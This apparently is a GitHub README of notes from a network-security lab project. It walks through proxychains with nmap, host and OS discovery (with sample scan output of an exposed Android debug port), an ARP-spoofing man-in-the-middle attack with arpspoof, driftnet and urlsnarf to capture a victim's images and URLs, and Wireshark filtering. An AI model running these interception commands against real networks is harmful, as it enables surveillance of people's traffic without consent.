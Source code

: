 ## Repo for scripts and notes for ADT project

1. Proxy chaining

    
  ```
  sudo apt-get install proxychains
  ```
 
  - copy `proxychains.conf` into `/etc/proxychains.conf`

  - when running `nmap` use proxy chaining as follows:
    
  ```
  sudo proxychains nmap -sT SOME_IP_ADDRESS
  ```

2. Port scanning
  
  1. Make sure if using 2 VM machines they are connected to Internet using
     Bridge (Automatic) option
  2. At first run `sudo netdiscover` to find all IP address
    ![](netdiscover_result.png)

  3. For all IP address run `./detect_os.sh netdiscover_results.txt out.txt` to detect OS
  ```
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Nov  1 14:41:26 2020 -- 1 IP address (1 host up) scanned in 40.54 seconds
    # Nmap 7.80 scan initiated Sun Nov  1 14:41:26 2020 as: nmap -T4 -A -v --append-output -oN out.txt 192.168.0.21
    Nmap scan report for 192.168.0.21
    Host is up (0.00057s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE  VERSION
    5555/tcp open  freeciv?
    | fingerprint-strings: 
    |   adbConnect: 
    |     CNXN
    |_    device::ro.product.name=android_x86;ro.product.model=VMware Virtual Platform;ro.product.device=x86;features=stat_v2,cmd,shell_v2
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5555-TCP:V=7.80%I=7%D=11/1%Time=5F9EBB17%P=x86_64-pc-linux-gnu%r(ad
    SF:bConnect,98,"CNXN\x01\0\0\x01\0\x10\0\0\x80\0\0\0\xfc/\0\0\xbc\xb1\xa7\
    SF:xb1device::ro\.product\.name=android_x86;ro\.product\.model=VMware\x20V
    SF:irtual\x20Platform;ro\.product\.device=x86;features=stat_v2,cmd,shell_v
    SF:2");
  ```

3. Man in the Middle attack
  - Enable packet forwarding `sysctl -w net.ipv4.ip_forward=1` and `sysctl -w net.ipv6.conf.all.forwarding=1`
  - Intercept packages from victim: `arpspoof -i [Network Interface Name] -t [Target IP] [Router IP]`
    to check [Network Interface Name] and [Router IP] run `ip route show`, the final command should be similar to `arpspoof -i eth0 -t 192.168.0.17 192.168.0.1`
  - Intercept package from router: `arpspoof -i [Network Interface Name] -t [Router IP] [Target IP]`
  - Sniff images from victim navigation: `driftnet -i [Network Interface Name]`
  - Sniff URLs information from victim navifation: `urlsnarf -i [Network
    Interface Name]`
  - Finally disable packet forwarding: `sysctl -w net.ipv4.ip_forward=0` and `sysctl -w net.ipv6.conf.all.forwarding=0`
 

4. Wireshark
  - Let's say we want to know what our victim is doing on specific page (and we
    know IP of that server). We can filter our results by _source_ and
destination_:

    ![](images/wireshar_example.png)
